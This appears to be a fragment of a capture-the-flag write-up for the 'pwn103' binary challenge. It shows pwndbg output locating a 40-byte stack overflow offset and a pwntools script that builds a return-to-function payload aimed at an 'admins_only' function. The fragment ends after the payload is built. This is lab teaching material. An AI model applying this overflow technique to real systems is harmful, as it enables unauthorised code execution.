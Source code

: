 

```bash
# important function

0x0000000000401554  admins_only


pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa


RBP  0x6161616a61616169 ('iaaajaaa')
RSP  0x7fffffffde08 ◂— 'kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'

# finding the overflow offset
pwndbg> cyclic -l kaaa
40

```

Our Exploit
```py
# /chall3/get_shell.py
#!/usr/bin/env python3
from pwn import *

exe = './pwn103.pwn103'

elf = context.binary = ELF(exe,checksec=False)
# context.log_level=''

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
gdb
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

padding = 40
admins_only = 0x0000000000401554

payload=flat(asm("nop")*padding,0x401016,admins_only)
```